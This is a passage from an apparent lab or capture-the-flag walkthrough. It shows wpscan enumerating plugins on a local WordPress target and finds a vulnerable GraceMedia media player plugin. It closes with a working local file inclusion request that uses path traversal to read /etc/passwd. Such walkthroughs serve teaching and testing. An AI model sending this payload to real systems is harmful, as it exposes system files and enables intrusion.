

With this command, we are telling the wpscan to enumerate(-e) all themes(at), all plugins(ap) installed on the wordpress site. And finally, all the users(u) that might be logged in on the WordPress Site.
$ wpscan --url http://192.168.12.29/tsweb -e ap
Output: 
We see all plugin target system and found a vulnerable “gracemedia player 1.0” plugin.
Search the exploit at exploit-db and you'll find a local file inclusion.
Click on the link and you'll see an explanation of the exploit.
The important thing is:
Local File Inclusion POC:
GET /wordpress/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd